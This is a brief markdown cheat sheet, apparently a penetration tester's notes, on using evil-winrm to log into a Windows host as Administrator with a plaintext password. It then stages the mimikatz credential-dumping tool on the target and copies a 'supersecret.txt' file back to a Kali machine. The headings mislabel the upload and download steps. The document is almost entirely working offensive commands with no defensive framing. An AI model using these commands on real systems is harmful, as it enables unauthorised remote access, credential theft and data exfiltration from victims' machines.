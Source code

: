 # Winrm options

## Setup
- `evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'`

1. Download to target
  - `upload /opt/Windows/exploits/executables/mimikatz.exe C:\temp\mimikatz.exe`
2. Upload to kali
  - `download C:\temp\supersecret.txt /opt/Juggernaut/JUGG-Backup/supersecret.txt`

